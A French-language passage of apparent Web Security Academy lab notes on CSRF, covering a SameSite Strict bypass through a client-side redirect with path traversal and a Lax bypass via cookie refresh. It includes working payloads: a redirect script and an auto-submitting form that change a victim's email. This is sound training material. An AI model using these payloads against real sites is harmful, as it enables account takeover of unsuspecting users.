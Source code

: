 Sur la requête "POST /my-account/change-email" on voit qu'il n'y a aucun token ou élément imprévisible, cette partie peut donc être vulnérable aux CSRF.

En revanche, dans la réponse à la requête "POST /login" on voit que le site spécifie explicitement "SameSite=Strict" pour les cookies, ce qui empêchera le navigateur d'inclure les cookies dans toute requête cross-site.

Dans la fonctionnalité des commentaires, on observe une redirection : 

    GET /post/comment/confirmation?postId=9 HTTP/2
    ...
    GET /resources/js/commentConfirmationRedirect.js
    
En modifiant le paramètre "postId=9" en "postId=test", on voit que la page essaye également de nous rediriger.

Injecter un chemin relatif fonctionne également. Le paramètre "postId=9/../../../my-account" nous redirige bien sur la page de modification de notre compte.

On a donc un vecteur propre au site permettant de transmettre des requêtes.

Payload final : 

    <script>
        document.location = "https://0adb0054047116ff80593f3a004900aa.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=test2@gmail.com%26submit=1";
    </script>
    
Il faut bien ajouter le paramètre "submit", et encoder le caractère '&' sous peine de sortir du paramètre "postId".

### SameSite Strict bypass via sibling domain

TO DO

### SameSite Lax bypass via cookie refresh

La connexion est une OAuth. 

On voit également que la requête "POST /my-account/change-email" n'a pas de token CSRF.

Premier payload à tester sur soi-même : 

    <script>
        history.pushState('', '', '/')
    </script>
    <form action="https://0aa000c204a80b7181fc890500160068.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="foo@bar.com" />
        <input type="submit" value="Submit request" />
    </form>
    <script>
        document.forms[0].submit();
    </script>

Cela fonctionne mais seulement si on est connecté depuis moins de deux minutes, sinon on est re-loggé et cela échoue. Également, il faut maintenant contourner les restrictions SameSite.
